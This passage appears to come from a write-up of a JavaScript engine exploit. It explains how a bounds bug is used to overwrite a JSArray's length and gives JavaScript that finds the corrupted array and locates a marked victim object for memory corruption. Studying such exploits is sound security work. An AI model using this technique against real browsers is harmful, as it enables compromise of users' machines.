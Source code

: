 We iterate from the first OOB index (4) to some arbitrary limit (20).
The boolean `good` will be true when we have found the JSArray's length at the current index.
First, we check that the value at the current index is 2.
Due to alignment and word size differences, the length appears left-shifted by 32 bits.
The value 2 can happen in two places: the JSArray length, and the corresponding FixedArray length.
We're interested in the JSArray.
We know that the FixedArray length will be followed by the first element (0.4), so by looking at the next index we can determine whether we have found the JSArray or the FixedArray backing.
Finally, two things can happen at `a[b*i*good] = new_size`:
- if we're in the optimization loop (`b` is false) or we're not looking at the JSArray's length (`good` is false), it will assign to `a[0]`, which is harmless;
- if we're looking at the JSArray's length, it will be set to a large value (0x7fffffff).

Once we return from the -0 call, we will (hopefully) have an array with corrupted length in `arrs`, and we can find it:

```javascript
let oob_arr = null;
for (let i = 0; i < arrs.length; i++) {
    if (arrs[i].length !== 2) {
        oob_arr = arrs[i];
        break;
    }
}
```

Now it's time to use the OOB array to find the victim object, and the index in the OOB array at which its `obj` property is.
This is a two-step process.
First, we look for the 0x41414141 `marker` property, and change it to a different value (0x42424242).
The next index is the `obj` property.

```javascript
let victim_obj = null;
let victim_obj_idx_obj = null;
for (let i = 0; i < 100; i++) {
    let val = Int64.fromDouble(oob_arr[i]).toString();
    if (val === "0x4141414100000000") {
        oob_arr[i] = (new Int64("4242424200000000")).asDouble();
        victim_obj_idx_obj = i + 1;
        break;
    }
}
```

Thanks to the different marker, we can find the victim object (whose `obj` index through `oob_arr` is `victim_obj_idx_obj`) in `objs`:

```javascript
for (let i = 0; i < objs.length; i++) {
    if (objs[i].marker == 0x42424242) {
        victim_obj = objs[i];
        break;
    }
}
```
